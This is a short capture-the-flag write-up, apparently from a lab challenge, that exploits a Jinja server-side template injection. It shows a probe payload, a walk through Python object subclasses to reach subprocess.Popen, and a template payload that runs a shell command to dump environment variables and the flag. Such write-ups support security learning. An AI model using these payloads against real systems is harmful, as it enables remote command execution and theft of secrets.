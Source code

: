 # Announce your name

We can write to the form input if we disable JavaScript from the browser console.

The server simply replies with whatever we introduce (I guess the word "open" was replaced by "REDACTED" but it does not matter).

Looking at the http headers you can see that is a Python server. Testing if it is using Jinja (a python template engine) we introduce a simple payload like `{{2*2}}`.

It returned "4" so is using Jinja and the server is vulnerable to STTI.

```
# Example of malignant expression
>>> ''.__class__
<class 'str'>
>>> ''.__class__.__mro__[1]
<class 'object'>
>>> ''.__class__.__mro__[1].__subclasses__
<built-in method __subclasses__ of type object at 0xa02d80>
>>> import subprocess
>>> for i, cls in enumerate(object.__subclasses__()):
...     if cls.__name__ == "Popen" and cls.__module__ == "subprocess":
...         print(f"index: {i} -> {cls}")
...
index: 300 -> <class 'subprocess.Popen'>
```

With `{{''.__class__.__mro__[1].__subclasses__()}}` you can see the available subclasses.

In this case we are looking for the index of `subprocess.Popen`, that is the last subclass.

With `{{''.__class__.__mro__[1].__subclasses__() | length }}` we found it's index.

With `{{''.__class__.__mro__[1].__subclasses__()[506]("env",shell=True,stdout=-1).communicate()}}` we can see the environment variables, including the flag.

`EnXp{N01T53UQFTC34T3DAM5A47ANUK}`
